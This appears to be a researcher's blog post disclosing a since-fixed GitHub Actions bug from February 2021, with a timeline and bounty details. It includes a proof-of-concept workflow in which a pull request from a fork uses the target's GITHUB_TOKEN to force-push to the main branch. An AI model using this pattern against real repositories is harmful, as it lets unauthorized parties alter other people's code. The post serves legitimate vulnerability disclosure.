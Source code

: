 ```yaml
---
title: "Gain write permission of repositories with a bug in GitHub Actions"
date: 2021-04-02T22:28:00+09:00
url: /posts/2021-04-02-improper-access-control-github-workflow/
---
```


# Gain write permission of repositories with a bug in GitHub Actions

GitHub Actions is a useful feature for the jobs, for example, building, publishing.

I found a bug which allows unauthorized users to edit the main branch of the repositories in GitHub.
Repositories which enables GitHub Actions are affected but fortunately, the bug exists in a brief window from 2021/02/04 18:42 UTC to 2021/02/05 13:35 UTC.
Also, protected branch is safe :)

---

Recently, I saw the case that some users abused the GitHub Actions for the DDoS.

[GitHub Actionsを使ったDDoSに巻き込まれた - 私が歌川です](https://blog.utgw.net/entry/2021/02/05/133642)

They forked many repositories, added a workflow file which runs some malicious program on pull request event, and created pull requests, so that their programs run in target repositories.
I'm not sure if that is correct but I guess they sent those pull requests to bypass [the resource limits on GitHub Actions](https://docs.github.com/en/actions/reference/usage-limits-billing-and-administration).
If the resource is shared for the pull request jobs, how about the `GITHUB_TOKEN`?

The `GITHUB_TOKEN` allows the workflow to commit a code, create packages, and so on.
Therefore, if the `GITHUB_TOKEN` for the target repository is shared for the jobs triggered by pull request, we gain write permission of the respository without authorization!
So I tested.

---

The test was simple. Just send a pull request and wait.

1. Victim prepares a repository which has random workflow file in `.github/workflows`. (Make sure the attacker has no permission to commit the repository.)

2. Attacker forks the repository and replace the workflow file to the following one. This workflows edit main branch after pull request event.

```
on: [pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: Create local changes and commit
        run: |
          echo test > newfile
          git add newfile
          git config --local user.email "namatyage@gmail.com"
          git config --local user.name "tyage"
          git commit -m "Add changes" -a
          git remote set-url origin https://x-access-token:${{ secrets.GITHUB_TOKEN }}@github.com/${GITHUB_REPOSITORY}
          git push --force origin HEAD:refs/heads/main
```

3. Attacker sends a pull request to the parent repository and waits for a while.

Surprisingly, the test was succeeded.
After the workflow finishes, victim repository has been modified!

(Send pull request to `tyage-test/repo-with-workflow`)
![](screenshot1.png)

(`tyage-test/repo-with-workflow` was polluted)
![](screenshot2.png)

I reported the bug to GitHub, and they fixed the bug quickly :)

--- 

Another short story:

Interestingly, a one day before I found the bug, another people had found a similar bug.

[Stealing arbitrary GitHub Actions secrets | Teddy Katz’s Blog](https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html)

Though this is a independent bug, the bug also exists in GitHub Actions and is triggered by crafted pull request.

---

## Timeline

- **2021/02/04 18:42 UTC** The bug was born
- **2021/02/05 12:09 UTC** I reported this issue to [GitHub Bug Bounty Program](https://hackerone.com/github)
- **2021/02/05 13:35 UTC** The bug was dead
- **2021/02/05 17:58 UTC** I received a message that the issues was fixed
- **2021/03/31 13:14 UTC** GitHub awarded a $25,000 bounty